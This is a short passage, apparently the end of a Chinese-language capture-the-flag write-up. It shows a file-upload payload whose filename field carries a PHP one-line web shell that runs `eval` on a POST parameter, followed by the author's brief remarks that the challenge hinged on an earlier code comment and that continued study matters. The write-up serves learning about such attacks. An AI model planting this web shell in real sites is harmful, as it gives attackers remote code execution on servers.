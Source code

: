 > > > > > >     filename="<?=@eval($_POST['a']);?>" 
> > > > > >     ```
> > > > > >     
> > > > > >     
> > > > > > *   这题的话，感觉不是很难，主要是得想到前面的注释。
> > > > > >     
> > > > > >     
> > > > > > 
> > > > > > ## 最后
> > > > > > 
> > > > > > *   飘了，同时发现实际能力还是不行，可能知道也不会做。
> > > > > > *   持续学习才是最重要的。
